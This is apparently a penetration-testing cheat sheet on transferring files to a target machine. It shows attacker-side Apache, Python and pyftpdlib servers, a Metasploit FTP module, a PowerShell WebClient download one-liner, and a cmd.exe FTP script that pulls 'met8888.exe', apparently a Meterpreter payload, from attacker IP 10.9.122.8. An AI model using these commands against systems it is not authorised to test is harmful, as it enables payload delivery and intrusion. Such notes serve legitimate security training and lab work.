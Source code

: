 # File Transfer

File can either be transferred by:
* Push file to target
* Have the target to pull file back

### <span style="color:green">HTTP</span>

**On attacker machine**:

#### <span style="color:green">Apache</span>

copy file to `/var/www/html/`

Start Apache Server

> /etc/init.d/apache2 start


#### <span style="color:green">Python</span>

By running below, current directory will be accessible over HTTP

> python -m SimpleHTTPServer [port no]

**On target machine**:
> http://your_ip_address:your_port_num/filename

If you only have command line access in a Windows machine, use PowerShell's WebClient object:

> powershell -c "<span style="color:blue">(new-object System.Net.WebClient).DownloadFile('http://your_ip_address:your_port_num/filename','C:\Users\dest_path\file_name')</span>"

or use cmd.exe to trigger IE

> cd Program Files\Internet Explorer
> start iexplore.exe [http://ip address/file]

### <span style="color:green">FTP</span>

#### vsftpd/pytftpd

**On attacker machine**:


`vsftpd` or simply the `pytftpd` library

> apt-get install python-pyftpdlib  

> python -m pyftpdlib -p [port_num]

default port is 2121

`-w` can grant the user write access

#### Metasploit

Metasploit has an ftp module `auxiliary/server/ftp`

> use auxiliary/server/ftp

> set FTPROOT /root/shells

> exploit

Can be kill with:
> jobs -k [id]

**On target machine**:

Type it into your cmd.exe

>echo open <span style="color:blue">10.9.122.8</span>\>ftp_commands.txt  
>echo anonymous>>ftp_commands.txt  
>echo whatever>>ftp_commands.txt  
>echo binary>>ftp_commands.txt  
>echo get met8888.exe>>ftp_commands.txt  
>echo bye>>ftp_commands.txt  
><span style="color:blue">ftp -s:ftp_commands.txt</span> 
